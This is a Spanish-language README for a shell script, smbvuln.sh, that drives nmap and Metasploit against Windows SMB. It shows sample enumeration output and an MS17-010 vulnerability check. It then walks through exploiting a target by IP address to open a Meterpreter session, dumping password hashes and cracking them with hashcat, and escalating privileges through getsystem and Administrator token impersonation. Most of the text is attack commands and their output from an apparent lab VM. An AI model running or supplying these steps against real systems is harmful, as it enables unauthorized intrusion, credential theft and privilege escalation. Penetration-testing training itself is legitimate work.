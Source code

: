 Antes de ejecutar el archivo smbvuln.sh deben de tener instaldo metasploit.

El archivo se tiene que ejecutar en modo sudo.

Ejecutar el siguiente comando

chmod +x smbvuln.sh

Despues de haber modificado los permisos del archivo procederemos a ejecutar el siguiente comando.

./smbvuln.sh


El escript contiene las siguiente opciones para realizar los escaneos.

1) Enumeración del servicio SMB
2) Verificar si el equipo es vulnerable
3) Hacer el exploit al equipo
 	
1) Para la primera opción se realizará la emumeración de los servicios SMB en el puerto 445

Ejemplo

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7600 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: WIN-CIHA5D1NVML
|   NetBIOS computer name: WIN-CIHA5D1NVML\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-29T11:33:32-05:00
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-29T16:33:32
|_  start_date: 2024-05-28T16:52:33
|_nbstat: NetBIOS name: WIN-CIHA5D1NVML, NetBIOS user: <unknown>, NetBIOS MAC: 000c291f41e1 (VMware)

2) Para la opción 2 se hace una verificación de servicio que sea vulnerable y se pueda ejecutar el exploit

Ejemplo

ORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:1F:41:E1 (VMware)

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:


3) Al selecionar la opción 3 nos pedirá que proporcionemos la ip del equipo que vas a auditar y posteriormente se ejecutará el script

Para saber si se ejecutó correctamente nos saldrá algo parecido a lo siguiente:

[*] Meterpreter session 1 opened (192.1xx.xxx.xxx:4444 -> 192.16x.xxx.xxxx:49236) at 20xx-0x-xx 13:40:35 -0400
[+] 192.1xx.xxx.xxx:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.1xx.xxx.xxx:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.1xx.xxx.xxx:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Cuando estemos en este punto podremos ejecutar alguno de los siguientes puntos:

1.- Obtener el password Hash

Meteremos el siguiente comando

----hashdump

y este nos dara el password hash y el nombre de la cuenta.

Ejemplo: 
Administrador:500:aad3bsx3xxx5xxxxbxx5x1404ee:xxxxxxxxxxxxxxxxxxxc59d7e0c089c0:::
Invitado:501:aad3b435b51404eexxxxxxxxb51404ee:xxxxxxxxxxxxxxxxxxxc59d7e0c089c0:::

con estos datos se puede utilizar el programa de hashcat para decodificar el password

2.- Para elevación de privilegios 

Para subir de privilegios usaremos el siguiente comando 

----getuid

posteriormente

---use priv

----getsystem

---use incognito

---list_tokens -u 

se copia el token que queremos acceder

--impersonate_token WIN-CIHA5D1NVML\\Administrador


Para más comandos ingresar a la siguiente página

https://www.offsec.com/metasploit-unleashed/meterpreter-basics/
